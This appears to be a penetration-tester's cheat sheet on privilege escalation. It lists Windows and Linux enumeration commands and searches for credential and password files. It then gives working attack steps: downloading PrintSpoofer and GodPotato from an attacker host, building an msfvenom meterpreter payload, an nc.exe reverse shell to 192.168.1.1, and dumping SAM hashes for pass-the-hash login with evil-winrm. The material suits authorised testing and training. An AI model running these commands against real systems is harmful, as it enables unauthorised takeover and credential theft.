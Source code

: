 # 04 - Privilege Escalation

Index
- [System Enumeration](#System-Enumeration)
    - [Windows](#Windows)
    - [Linux](#Linux)
- [SeImpersonatePrivilege](#SeImpersonatePrivilege)
    - [Exploit by PrintSpoofer64](#Exploit-by-PrintSpoofer64)
    - [Exploit by GodPotato](#Exploit-by-GodPotato)
- [SeBackupPrivileges](#SeBackupPrivileges)
    - [Exploit by secrets dump](#Exploit-by-secrets-dump)

## System Enumeration
### General Info
- Search for:
    - user privileges and system configuration
    - git repository and logs
    - archive file like ZIP, BAK, KDBX (and crack it!)
    - web configuration file (CMS config, DB connection file)
    - enumeration tool output

### Windows
Base commands for Windows:
``` powershell
whoami                                  ## domain\username
whoami /groups                          ## my groups
whoami /priv                            ## user's local privileges
Get-LocalUser                           ## local users list
Get-LocalGroup                          ## local groups list
Get-LocalGroupMember $GROUP_NAME        ## members list
net user $USERNAME                      ## user information
net user /domain                        ## domain user list

systeminfo                              ## OS version, domain config, ...
ipconfig /all                           ## network configuration
route print                             ## local routing table
netstat -nao                            ## acctive connections and listening ports
Get-ChildItem Env:                      ## environment vars -- tips: informations hidden
Get-Process                             ## process list

Get-History                             ## history
(Get-PSReadlineOption).HistorySavePath  ## read the content to access the history
```
Search information in file:
``` powershell
Get-ChildItem -Path c:\ -Include *.txt -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path c:\Users -Include *.txt -File -Recurse -ErrorAction SilentlyContinue 
Get-ChildItem -Path c:\ -Include *.pdf -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path c:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path c:\ -Include *.zip -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path c:\ -Include *.git -File -Recurse -ErrorAction SilentlyContinue 
Get-ChildItem -Path c:\ -Include credential* -File -Recurse -ErrorAction SilentlyContinue
Get-ChildItem -Path c:\ -Include password* -File -Recurse -ErrorAction SilentlyContinue

Get-ChildItem -Path c:\ -Include *.git* -File -Recurse -ErrorAction SilentlyContinue                            ## search for git repo
git log                                                                                                         ## check information in log
git view $LOGID                                                                                                 ## check commit log content
```

Other for Windows:
``` powershell
Get-ItemProperty "HKLM:\SOFTWARE\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname ## installed software
Get-ItemProperty "HKLM:\SOFTWARE\Microsoft\Windows\CurrentVersion\Uninstall\*" | select displayname             ## installed software
```

Tools for Windows:
 - winPEAS.exe
 - Seatbelt.exe

### Linux
Base commands for Linux:
``` bash
id
env
history
cat /etc/passwd                             ## user list
ls -la /home                                ## home
ps ax                                       ## process list
uname -na                                   ## os version
ss -anp                                     ## connections
cat /etc/crontab                            ## main crontab
ls -la /etc/cron*                           ## crontab script
ls -la /etc/sudo*
cat /etc/fstab
find / -writable -type d 2>/dev/null        ## writable dir
find / -perm -u=s -type f 2>/dev/null

find ./ -type f -name "*.txt" 2>/dev/null   ## file by extension
find ./ -type f -name "*.tar" 2>/dev/null   ## file by extension
find ./ -type f -name "*.bak" 2>/dev/null   ## file by extension
find ./ -type f -name "*.zip" 2>/dev/null   ## file by extension
find ./ -type f -name "*.gz" 2>/dev/null    ## file by extension

lsmod
/sbin/modinfo $driver_name
dpkg -l
```

Tools for Linux:
 - unix-privesc-check
 - linpeas

## SeImpersonatePrivilege
### Requirements
- Need access to the target system.
- Verify user's privileges:
``` powershell
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled     ## vulnerable
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

### Exploit by PrintSpoofer64
PrintSpoofer64.exe can exploit the local system and elevate the privileges.
``` powershell
iwr http://192.168.1.1:8888/PrintSpoofer64.exe -outfile PrintSpoofer64.exe      ## download on target system
.\PrintSpoofer64.exe -i -c powershell.exe                                       ## exploit
```

### Exploit by GodPotato
GodPotato.exe can exploit the local system and run command with elevate privilege. Useful link: https://jlajara.gitlab.io/Potatoes_Windows_Privesc.

Generate a payload and a listester:
``` bash
msfvenom -p windows/x64/meterpreter_reverse_https LHOST=$KALI LPORT=443 -f exe -o payload.exe   ## generate payload
msfconsole                                                                                      ## open msfconsole
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter_reverse_https                 ## set payload
msf6 exploit(multi/handler) > set LHOST $KALI
msf6 exploit(multi/handler) > set LPORT 443
msf6 exploit(multi/handler) > run
```

Exploit the system:
``` powershell
iwr http://192.168.1.1:8888/payload.exe -outfile payload.exe                                    ## download payload on target system
iwr http://192.168.1.1:8888/GodPotato.exe -outfile GodPotato.exe                                ## download exploit on target system
./GodPotato.exe -cmd "powershell /c ./payload.exe"                                              ## exploit: open a reverse shell
```
Alternative:
``` powershell
./GodPotato.exe -cmd "./nc.exe -t -e c:\Windows\System32\cmd.exe 192.168.1.1 9999"              ## exploit: nc.exe reverse shell
```

## SeBackupPrivileges
### Exploit by secrets dump
- Need access to the target system.
- Verify user's privileges:
``` powershell
whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeBackupPrivilege             Back up files and directories  Enabled    ## vulnerable
SeRestorePrivilege            Restore files and directories  Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

reg save hklm\sam c:\Temp\sam           ## copy on KALI
reg save hklm\system c:\Temp\system     ## copy on KALI
```

From KALI, use impacket-secretsdump to extract the hashes, evil-winrm to login:
``` bash
impacket-secretsdump -sam sam -system system LOCAL

[*] Target system bootKey: 0x00000000000000000000000000000000
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:00000000000000000000000000000000:00000000000000000000000000000000:::
# user                                             # hash

evil-winrm -i 192.168.1.1 -u Administrator -H 00000000000000000000000000000000
```